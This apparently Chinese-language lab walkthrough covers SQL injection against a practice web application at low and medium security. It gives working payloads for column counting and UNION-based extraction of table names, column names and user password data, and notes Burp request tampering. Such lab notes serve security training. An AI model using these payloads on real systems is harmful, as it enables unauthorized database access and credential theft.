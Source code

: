 ### low

1. 判断注入是字符型还是数字型

   数字型

   ```
   http://www.sql.com/xxx.php?id=1              假设ID为存在注入的参数
   http://www.sql.com/xxx.php?id=1‘             语句报错
   http://www.sql.com/xxx.php?id=1 and 1=1      页面正常返回结果
   http://www.sql.com/xxx.php?id=1 and 1=2      页面返回错误
   ```

   字符型

   ```
   http://www.sql.com/xxx.php?id=1                      假设ID为存在注入的参数
   http://www.sql.com/xxx.php?id=1‘                     语句报错
   http://www.sql.com/xxx.php?id=1' and 1=1 and '1'='1  页面正常返回结果
   http://www.sql.com/xxx.php?id=1' and 1=2 and '1'='1  页面返回错误
   ```

   在这里是`1'and '1' ='2`和 `1'or '1234' = '1234`

2. 猜测字段个数

   `1' or 1=1 order by 1 #` 成功

   `1' or 1=1 order by 2 #` 成功

   `1' or 1=1 order by 3 #` 失败

3. 确定显示字段顺序

   `1' union select 1,2 #`

4. 获取数据库中的表

   `1′ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()`需替换单引号

5. 获取字段名

   `1′ union select 1,group_concat(column_name) from information_schema.columns where table_name=’users’ #` 替换单引号

6. 下载数据

   `1′ or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`替换单引号

### medium

使用了`mysql_real_escape_string`函数处理特殊符号

同时使用下拉菜单。

burp修改请求数据。

其他同上
